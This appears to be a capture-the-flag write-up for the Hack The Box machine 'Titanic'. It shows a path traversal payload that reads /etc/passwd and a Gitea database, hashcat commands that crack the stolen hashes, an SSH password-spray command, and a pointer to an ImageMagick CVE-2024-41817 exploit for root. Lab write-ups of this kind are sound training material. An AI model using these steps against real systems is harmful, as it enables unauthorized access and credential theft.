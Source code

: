 ```yaml
---
layout: post
title: "[HTB] Titanic"
difficulty: easy
tags: [path_traversal, lfi, hashcat]
status: Complete
---
```

***

## Quick Hits:

| Info | Details |
| ---- | ------- |
| **IP Address** | 10.10.11.55 |
| **Difficulty** | 🟢 Easy |
| **Exploits** | Path Traversal, Local File Inclusion |
| **Tools Used** | `hashcat` |
| **Techniques Used** |  |
| **Interesting Files** | `~/gitea/data/gitea/conf/app.ini` |

#### Port Scan Results:

| Port | State | Service | Version |
| ---- | ----- | ------- | ------- |
| 22/tcp | open | ssh | OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0) |
| 80/tcp | open | http | Apache httpd 2.4.52 (Ubuntu) |

***

## Walk-through

We are greeted by a Cruise Service named after the infamous **Titanic**. One would usually think twice about any ship that's named after one that sank, but not here! Most of the site still seems to be under construction since most links are *dead*. Fortunately for the Cruise owners (or unfortunately, we'll see why later), the **Booking System** seems to be in order.

Booking a trip has the site respond back with a JSON confirmation of the trip, and a redirect to `/download` the `ticket`. Based on this, the ticket details are being stored in a JSON file in the back-end which is then served up to the browser for download.

### Path Traversal / Local File Inclusion

By simply changing the request from `GET /download?ticket={uuid}.json` to `GET /download?ticket=../../../../etc/passwd`, we can grab files from the local file system. It's here that we can access the `/etc/hosts` file and find the `dev.titanic.htb` domain.

```
127.0.0.1  localhost  titanic.htb  dev.titanic.htb
127.0.1.1  titanic

\# The following lines are desirable for IPv6 capable hosts
::1  ip6-localhost ip6-loopback
fe00::0  ip6-localnet
ff00::0  ip6-mcastprefix
ff02::1  ip6-allnodes
ff02::2  ip6-allroutes
```

### Gitea

Visiting the newly acquired subdomain gives us a Gitea page with the `developer/docker-config` and `developer/flask-app` repos. `flask-app` contains the source of the Cruise website while `docker-config` contains the `docker-compose.yml` file used to start the `Gitea` instance.

We can recreate the `Gitea` docker instance using the `docker-compose.yml` file through the following commands.

`docker compose up -d`
`docker compose exec -it gitea sh`

This allows us to confirm the file structure of the `/home/developer/gitea` directory and obtain `/home/developer/gitea/data/gitea/conf/app.ini` using the LFI vulnerability earlier. This is the Gitea configuration file which contains a `PATH` to the `/data/gitea/gitea.db` file.

```
[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
HOST = localhost:3306
NAME = gitea
USER = root
PASSWD =
LOG_SQL = false
SCHEMA =
SSL_MODE = disable
```

Again using the LFI vulnerability, we can request this file and obtain the Gitea database. This contains password hashes of `administrator` and `developer` users that we can then run through `gitea2hashcat.py` and crack using the following command:

`sqlite3 gitea.db 'select salt,passwd from user;' | python3 gitea2hashcat.py`
`hashcat hashes.txt /usr/share/wordlists/rockyou.txt`

Giving us the credentials `developer`:`25282528`.

**TIP:** You can use netexec to password spray the usernames if they're not already filled.
`nxc ssh 10.10.11.55 -u users.txt -p '25282528'`

***And, we're in!***

### Privilege Escalation

Running `linpeas.sh` would give us an interesting script in `/opt/scripts/identify_images.sh`.

```
developer@@titanic:/opt/scripts$ cat identify_images.sh
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

This seems to run magick on all JPG images within a folder and then pipe those results into a log file.

```
developer@@titanic:/opt/scripts$ ls -al /opt/app/static/assets/images
total 1288
drwxrwx---  2  root  developer  4096  Feb  3  17:13 .
drwxr-x---  2  root  developer  4096  Feb  7  10:37 ..
-rw-r-----  1  root  developer  291864  Feb  3  17:13 entertainment.jpg
-rw-r-----  1  root  developer  280854  Feb  3  17:13 exquisite-dining.jpg
-rw-r-----  1  root  developer  209762  Feb  3  17:13 favicon.ico
-rw-r-----  1  root  developer  232842  Feb  3  17:13 home.jpg
-rw-r-----  1  root  developer  280817  Feb  3  17:13 luxury-cabins.jpg
-rw-r-----  1  root  developer  442  Jun  18  19:09 metadata.log
```

Seeing as `metadata.log` can only be written to by `root` and that changes are made to it every minute, it would be safe to say that `identify_images.sh` runs periodically using the `root` account and is a potential PrivEsc route.

Checking the `magick` version (`/usr/bin/magick -version`) gives us `ImageMagick` version v7.1.1-35, vulnerable to Arbitrary Code Execution in **CVE-2024-41817**.

We can then run the [exploit.py](https://raw.githubusercontent.com/Dxsk/CVE-2024-41817-poc/refs/heads/main/exploit.py) PoC script to obtain `root` access. **And, we're done!**

***

###### This is currently a Work-In-Progress. More changes to formatting, tags and explanations to come!
